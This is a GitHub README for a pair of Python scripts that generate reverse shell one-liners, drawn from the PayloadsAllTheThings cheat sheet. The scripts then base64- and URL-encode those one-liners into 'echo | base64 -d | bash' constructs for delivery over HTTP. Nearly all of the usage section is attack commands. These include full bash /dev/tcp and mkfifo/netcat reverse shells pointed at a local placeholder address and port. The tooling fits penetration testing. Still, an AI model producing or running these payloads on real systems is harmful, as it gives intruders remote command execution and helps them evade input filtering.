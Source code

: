 # Reverse shells tools
Scripts for generating reverse shells based mostly on PayloadAllTheThings.

Using one script you can generate one-line reverse shell payloads.

Using the other script you can base64 encode the reverse shell payload when appropiate. This encoding takes into account bad chars for supporting channels as http (url friendly base64 encoded payloads).

I normally use the one-liner to pipe the result into the encoder when appropiate.

The tools are **2 scripts**:
- **rs_oneliner.py**: Mostly one-liner reverse shell generator, based on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- **rs_b64encode.py**: Use it in convination with **rs_oneliner.py** when appropiate payloads are used (payloads normally to be executed in a bash context). Using the **--echo** It can help you constructing an *echo <base64_encoded_payload> | base64 -d | bash* construct. And with **--echo** and **--url** it will use **url encode** the payload too.

## How to use

Minimal execution needs:

```bash
git clone https://github.com/arale61/reverse_shells_tools.git
cd reverse_shells_tools
python ./rs_oneliner.py -h
python ./rs_b64encode.py -h
```

How **I prefer to use it**:
- I have my own **local bin path** where **these scripts are copied** and **set as executables**:
```
~/.local/bin/rs_oneliner.py
~/.local/bin/rs_b64encode.py
```
- This **local bin path is added in my PATH** environment variable in my .zshrc or .bashrc:
```
export PATH=$PATH:$HOME/.local/bin
```
- Then use them as any other executable available for you.

## Examples:


1. Simple bash tcp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash
```


2. Simple bash udp reverse shell:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash --udp
```


3. Simple perl tcp reverse shell for windows:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl --win
```


4. Pipe into rs_b64encode.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py
```


5. Pipe into rs_b64encode.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo
```


6. Pipe into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --bash | ./rs_b64encode.py --echo --url
```


7. Simple safe base64 encode:
```bash
./rs_b64encode.py -p 'bash -i >& /dev/tcp/127.0.0.1/6161 0>&10'
```


8. Simple safe base64 encode and use echo decode construct:
```bash
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' | ./rs_b64encode.py --echo
#or
./rs_b64encode.py -p 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6161 >/tmp/f' --echo
```


9. Pipe with rs_oneliner.py:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --python | ./rs_b64encode.py
```


10. Pipe with rs_oneliner.py and construction echo decode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --perl | ./rs_b64encode.py --echo
```


11. Pipe into rs_b64encode.py and construction echo decode url_quote_plus encode payload:
```bash
./rs_oneliner.py -i 127.0.0.1 -p 6161 --phpsystem | ./rs_b64encode.py --echo --url
```
